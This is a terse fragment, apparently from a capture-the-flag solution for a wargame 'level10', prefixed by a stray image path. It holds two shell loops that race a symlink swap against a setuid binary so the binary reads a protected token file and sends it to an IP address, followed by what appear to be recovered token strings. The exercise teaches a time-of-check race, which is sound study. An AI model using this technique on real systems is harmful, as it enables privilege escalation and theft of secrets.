 while true; do ln -sf /tmp/fake /tmp/goodlink; ln -sf /home/user/level10/token /tmp/goodlink; done

while true; do ./level10 /tmp/goodlink 10.0.2.15; done

woupa2yuojeeaaed06riuj63c

feulo4b72j7edeahuete3no7c